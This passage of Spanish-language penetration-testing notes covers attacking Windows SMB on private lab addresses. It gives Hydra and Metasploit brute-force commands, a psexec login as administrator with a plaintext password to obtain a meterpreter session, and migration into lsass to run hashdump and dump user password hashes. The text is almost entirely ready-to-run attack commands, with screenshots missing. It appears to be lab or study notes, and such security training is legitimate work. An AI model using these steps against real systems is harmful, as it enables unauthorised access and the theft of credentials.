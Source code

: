 Podemos también hacer ataques de fuerza bruta con Hydra al protocolo SMB:
```bash
hydra -P user.txt -L passwords.txt smb://192.168.0.30
```
En caso de obtener un error haciendo ataques de fuerza bruta al protocolo smb, podemos usar metasploit:
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.0.30
set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
```

![[Pasted image 20240615210050.png]]

Una vez encontrado el usuario administrador, podemos loguearnos con la herramienta de psexec siempre y cuando algún recurso compartido tenga permisos de escritura:

```python
impacket-psexec administrator@192.168.0.20
```

Si tiene permisos de escritura:
![[Pasted image 20240615210110.png]]

Si no tiene permisos de escritura:
![[Pasted image 20240615210126.png]]

No obstante, si queremos entrar con metasploit para obtener una sesión de meterpreter, tendríamos que usar el siguiente módulo:

```python
use exploit/windows/smb/psexec
```

Y establecemos los parámetros:

```python
set RHOST 192.168.0.20
set RPORT 445
set SMBUSER administrator
set SMBPASS password1
```

Y habremos obtenido lo mismo de antes pero con metasploit una sesión de meterpreter:
![[Pasted image 20240615210158.png]]

Ahora podremos incluso dumpear los passwords de los usuarios, por lo que tenemos primero que mirar al proceso lsass para hacer esto:

```python
pgrep lsass # Proceso para realizar acciones privilegiadas
migrate 464
hashdump
```

![[Pasted image 20240615210222.png]]

También podemos conocer los usuarios si entramos con la shell y usamos el comando net users, donde vemos que en este caso hay tres usuarios dentro del SMB:

![[Pasted image 20240615210229.png]]